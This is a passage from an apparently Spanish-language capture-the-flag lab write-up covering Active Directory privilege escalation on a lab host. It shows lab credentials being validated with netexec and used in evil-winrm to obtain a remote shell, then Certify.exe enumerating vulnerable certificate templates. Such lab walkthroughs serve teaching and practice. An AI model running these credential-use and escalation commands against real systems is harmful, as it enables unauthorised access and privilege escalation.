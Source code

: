 
Luego de obtener las credenciales validaremos con `netexec`, también se podría validar con `crackmapexec` y no habría ningún inconveniente.

```python
❯ netexec winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```

![20240308173855.png](20240308173855.png)

# Escalada de privilegios

## Usuario : svc_ldap

Una vez validado las credenciales podemos hacer uso de `evil-winrm` para poder obtener una shell

```python
❯ evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```

![20240308174029.png](20240308174029.png)

Enumerando encontraremos que tiene un certificado vulnerable, esto haciendo uso de la herramienta de  `Certify.exe`

- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#abuse)

```python
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> .\Certify.exe find /vulnerable
```
